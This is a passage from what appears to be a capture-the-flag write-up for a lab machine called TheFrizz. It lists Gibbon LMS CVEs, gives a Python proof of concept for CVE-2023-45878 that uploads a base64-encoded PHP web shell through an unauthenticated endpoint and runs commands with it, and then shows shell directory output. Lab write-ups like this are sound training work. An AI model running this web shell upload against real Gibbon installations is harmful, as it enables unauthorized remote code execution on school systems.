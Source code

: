Version:

![thefrizz5](/assets/img/thefrizz5.png)

Vulnerable to multiple cves. [CVE-2023-34598](https://github.com/maddsec/CVE-2023-34598) and [CVE-2023-45878](https://nvd.nist.gov/vuln/detail/CVE-2023-45878). The later gives us a shell as `frizz\w.webservice`.

poc for CVE-2023-45878:

```python
import requests
import base64
import random
import urllib

path = f"modules/Rubrics/rubrics_{random.choice(range(1_000_000))}.php"

cmd = """dir ."""
cmd = urllib.parse.quote_plus(cmd)

payload = base64.b64encode(b'<?php echo system($_GET["cmd"]); ?>').decode()
res = requests.post(
   "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php",
   headers={"Content-Type": "application/x-www-form-urlencoded"},
   data={
       "img": "data:image/png;base64," + payload,
       "path": path,
       "gibbonPersonID": "aaaaab1213_",
   },
)
print(f"{res}")

res = requests.get(
   "http://frizzdc.frizz.htb/Gibbon-LMS/" + path,
   params="cmd=" + cmd,
)
print(f"{res.text}")
```

# initial enumeration
```
PS C:\xampp\htdocs\Gibbon-LMS> ls


    Directory: C:\xampp\htdocs\Gibbon-LMS


Mode                 LastWriteTime         Length Name                                                          
----                 -------------         ------ ----                                                          
d-----         1/20/2023   6:04 AM                i18n                                                          
d-----         1/20/2023   6:04 AM                installer                                                     
d-----         1/20/2023   6:04 AM                lib                                                           
d-----         1/20/2023   6:04 AM                modules                                                       
d-----         1/20/2023   6:04 AM                resources                                                     
```